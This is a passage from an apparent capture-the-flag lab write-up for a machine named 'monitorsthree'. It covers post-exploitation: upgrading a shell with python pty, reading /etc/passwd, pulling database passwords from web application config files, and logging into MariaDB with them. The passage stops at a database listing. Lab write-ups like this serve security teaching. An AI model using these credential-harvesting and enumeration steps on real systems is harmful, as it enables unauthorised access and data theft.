 We can upgrade our shell:
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege Escalation to User

Look for users to escalate to:
```shell
www-data@monitorsthree:~$ cat /etc/passwd |grep -E 'bash$'
root:x:0:0:root:/root:/bin/bash
marcus:x:1000:1000:Marcus:/home/marcus:/bin/bash
```

### Database Enumeration

Found multiple database credentials in configuration files. First in /var/www/html/app/admin/db.php:
```shell
www-data@monitorsthree:~/html/app/admin$ cat db.php
cat db.php
<?php

$dsn = 'mysql:host=127.0.0.1;port=3306;dbname=monitorsthree_db';
$username = 'app_user';
$password = 'php_app_password';
```
This is the database we already enumerated with sqlmap, so we can move on.

Second, in /var/www/html/cacti/include/config.php.dist:
```shell
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cactiuser';
$database_password = 'cactiuser';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
```

`cacti` is a new database to us, so let's connect and view the databases:
```sql
www-data@monitorsthree:~$ mysql -hlocalhost -ucactiuser -pcactiuser
mysql -hlocalhost -ucactiuser -pcactiuser
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 540
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| cacti              |
| information_schema |
| mysql              |
+--------------------+
```
